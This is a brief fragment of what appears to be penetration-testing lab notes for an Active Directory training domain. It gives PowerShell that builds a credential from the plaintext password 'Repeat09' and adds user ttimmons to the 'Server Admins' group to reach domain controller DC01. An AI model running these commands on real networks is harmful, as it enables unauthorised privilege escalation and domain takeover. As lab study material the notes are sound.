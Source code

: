 - create cred or go `runas`
- add `ttimmons` to the `Server Admins` to be able to run DC01
```powershell
$SecPassword = ConvertTo-SecureString 'Repeat09' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $SecPassword)

Add-DomainGroupMember -Identity 'Server Admins' -Members 'INLANEFREIGHT\ttimmons' -Credential $Cred
```